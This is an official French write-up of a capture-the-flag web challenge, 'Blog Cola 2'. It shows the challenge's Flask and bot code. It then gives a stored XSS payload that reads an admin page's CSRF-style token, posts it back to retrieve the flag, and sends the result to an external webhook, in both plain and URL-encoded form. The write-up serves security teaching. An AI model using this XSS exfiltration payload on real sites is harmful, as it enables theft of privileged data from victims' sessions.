


# Blog Cola 2 WU officiel

## Description du challenge et objectif

Ce challenge a pour objectif d’introduire les failles présentes sur les clients web. Pour ce faire, vous avez accès à un site web de Popa Cola : Blog Cola.

C’est par le biais de ce site que l’entreprise concurrente dénigre Freizh Cola. Il faut donc prendre le contrôle du site afin de mettre un terme à cette mauvaise publicité.

Pour cela, il sera nécessaire de devenir administrateur sur le site web, ce qui donnera accès au panneau d’administration (qui affiche le flag).

## Modifications par rapport au challenge précédent

### HttpOnly

Le cookie est maintenant défini en tant que `HttpOnly` :

```py
# dans bot.py

def visit(url, token):

    [...]

    driver.add_cookie({
        "name": "token",
        "value": token,
        "path": "/",
        "httpOnly": True,
        "samesite": "Strict",
        "domain": "127.0.0.1"
    })

    [...]
```

### Désactivation de la création de posts

```html
<!-- Dans templates/create.html -->

[...]

<form action="" method="post">
    <input type="text" name="title" placeholder="Title" required>
    <fieldset id="tinyMCE"></fieldset>
    <button type="submit" disabled="true">Cr&eacute;er</button>
</form>

[...]
```

### Changement de la mécanique de récupération du flag

```py
# dans app.py

@app.route("/admin", methods=["GET", "POST"])
def admin():
    global token

    if request.method == "GET":
        if not request.cookies.get("token") == ADMIN_SESSION_KEY:
            return redirect("/")
        
        token = "".join([ascii_letters[randint(0, len(ascii_letters) - 1)] for _ in range(50)])
        return render_template("admin.html", token=token)

    if request.method == "POST":
        # vérifie que l'utilisateur est admin
        if not request.cookies.get("token") == ADMIN_SESSION_KEY:
            return redirect("/")
        
        # vérifie que le token transmis est le bon -> la requête vient bien de la page admin
        if not request.form.get("flag-token") == token:
            return redirect("/")
        
        return FLAG
```

```html
<!-- Dans templates/admin.html -->

[...]
<div class="flag-container">
    <button onclick="getflag()">R&eacute;cup&eacute;rer le flag</button>
    <h1 hidden="true" id="flag-title">Flag</h1>
    <p id="flag-container"></p>
</div>

<script>
    function getflag() {
        token = "{{token}}"
        flag_container = document.getElementById("flag-container")
        flag_title = document.getElementById("flag-title")

        fetch("/admin", {
            method: "POST",
            body: new URLSearchParams({
                "flag-token": token
            })
        }).then((r) => r.text()).then((q) => {
            flag_container.innerHTML = q
            flag_title.hidden = false
        })
    }
</script>
[...]
```

La nouvelle page admin contient un bouton qui envoie une requête POST pour récupérer le flag. Cette récupération repose à la fois sur le cookie d’authentification admin et sur un nouveau token généré à chaque chargement de la page.

## Exploitation

Pour contourner ces nouvelles protections, il est d’abord nécessaire de pouvoir créer des articles. Ici, c’est assez simple : il suffit de modifier l’attribut HTML du bouton désactivé pour pouvoir l’utiliser de nouveau. Par exemple, en supprimant complètement l’attribut `disabled`.



Pour la suite de l’exploitation, on peut se référer au premier challenge. Ce qui change ici, c’est le script JavaScript utilisé.

En effet, il faut un script qui :
- récupère le `flag-token` via un accès GET à `/admin` ;
- envoie ce `flag-token` via une requête POST sur `/admin` ;
- redirige le contenu de la réponse vers un webhook.

```js
fetch("/admin").then(
    (r) => r.text()
).then(
    (q) => {
        flag = q.match(/token = "[A-Za-z]*"/g)[0].match(/[A-Za-z]{10,50}/g)[0]; // extrait le flag-token
        fetch("/admin", {
            method: "POST",
            body: new URLSearchParams({ 'flag-token': flag })
        }).then(
            (s) => s.text()
        ).then(
            (x) => fetch("https://hhhhhh.free.beeceptor.com?flag=" + x) // envoie le flag au webhook
        );
    }
)
```

Ce qui donne, après encodage URL, le payload final :

```html
title=bbbbb&tinyMCE=<script>fetch%28%22%2Fadmin%22%29%2Ethen%28%0A%20%20%20%20%28r%29%20%3D%3E%20r%2Etext%28%29%0A%29%2Ethen%28%0A%20%20%20%20%28q%29%20%3D%3E%20%7B%0A%20%20%20%20%20%20%20%20flag%20%3D%20q%2Ematch%28%2Ftoken%20%3D%20%22%5BA%2DZa%2Dz%5D%2A%22%2Fg%29%5B0%5D%2Ematch%28%2F%5BA%2DZa%2Dz%5D%7B10%2C50%7D%2Fg%29%5B0%5D%3B%0A%20%20%20%20%20%20%20%20fetch%28%22%2Fadmin%22%2C%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20method%3A%20%22POST%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20body%3A%20new%20URLSearchParams%28%7B%20%27flag%2Dtoken%27%3A%20flag%20%7D%29%0A%20%20%20%20%20%20%20%20%7D%29%2Ethen%28%0A%20%20%20%20%20%20%20%20%20%20%20%20%28s%29%20%3D%3E%20s%2Etext%28%29%0A%20%20%20%20%20%20%20%20%29%2Ethen%28%0A%20%20%20%20%20%20%20%20%20%20%20%20%28x%29%20%3D%3E%20fetch%28%22https%3A%2F%2Fhhhhhh%2Efree%2Ebeeceptor%2Ecom%3Fflag%3D%22%20%2B%20x%29%3B%0A%20%20%20%20%7D%0A%29</script>
```

Ce payload permet donc de recevoir directement le flag sur votre webhook.


